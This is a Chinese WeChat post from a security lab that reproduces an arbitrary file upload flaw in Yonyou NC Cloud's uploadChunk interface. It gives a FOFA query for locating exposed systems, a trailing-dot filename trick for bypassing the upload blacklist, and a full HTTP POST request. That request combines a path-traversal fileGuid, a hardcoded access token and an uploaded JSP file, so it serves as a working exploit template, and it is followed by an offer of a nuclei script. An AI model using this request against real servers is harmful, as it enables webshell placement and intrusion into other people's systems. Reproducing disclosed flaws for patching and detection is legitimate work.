 #  用友 NC Cloud uploadChunk 任意文件上传

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 17个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

用友 NC Cloud系统，uploadChunk 接口存在任意文件上传漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

app="用友-NC-Cloud"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

uploadChunk接口存在任意文件上传漏洞。

![]()

正常上传会被拦截，此处利用windows特性绕过黑名单限制。

  * 

    
    
    filename="xxx.jsp."

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /ncchr/pm/fb/attachment/uploadChunk?fileGuid=/../../../nccloud/&chunk=1&chunks=1 HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 173accessTokenNcc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQAccept-Encoding: gzip, deflate, brConnection: closeContent-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9  
    --024ff46f71634a1c9bf8ec5820c26fa9Content-Disposition: form-data; name="file"; filename="xxx.jsp."  
    <% out.println("Hello"); %>--024ff46f71634a1c9bf8ec5820c26fa9--

漏洞存在响应包如下：

![]()

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：用友NCCloud1

  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

